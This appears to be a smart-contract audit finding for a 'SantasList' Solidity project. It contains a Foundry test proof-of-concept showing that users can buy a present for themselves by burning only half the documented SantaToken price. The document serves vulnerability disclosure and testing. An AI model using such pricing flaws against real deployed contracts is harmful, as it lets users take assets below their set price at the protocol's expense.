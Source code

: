 ## PoC
Add the test in the file: `test/unit/SantasListTest.t.sol`.

Run the test:
```cpp
forge test --mt test_UsersCanBuyPresentForLessThanActualAmount
```

```cpp
function test_UsersCanBuyPresentForLessThanActualAmount() public {
    vm.startPrank(santa);

    // Santa checks user once as EXTRA_NICE
    santasList.checkList(user, SantasList.Status.EXTRA_NICE);

    // Santa checks user second time
    santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);

    vm.stopPrank();

    // christmas time 🌳🎁  HO-HO-HO
    vm.warp(santasList.CHRISTMAS_2023_BLOCK_TIME()); 

    // user collects their present
    vm.prank(user);
    santasList.collectPresent();

    // balance after collecting present
    uint256 userInitBalance = santaToken.balanceOf(user);

    // now the user holds 1e18 SantaToken
    assertEq(userInitBalance, 1e18);

    vm.prank(user);
    santaToken.approve(address(santasList), 1e18);

    vm.prank(user);
    // user buy present
    // docs mention that user should only buy present for others, but they can buy present for themselves
    santasList.buyPresent(user);

    // only 1e18 SantaToken is burnt instead of the true price (2e18)
    assertEq(santaToken.balanceOf(user), userInitBalance - 1e18);
}
```

## Impact
- Protocol mentions that user should be able to buy NFT for 2e18 amount of SantaToken but users can buy NFT for their friends by burning only 1e18 tokens instead of 2e18, thus NFT can be bought at much cheaper rate which is half of the true amount that was expected to buy NFT.
- User can buy a present for themselves but docs strictly mentions that present can be bought for someone else.
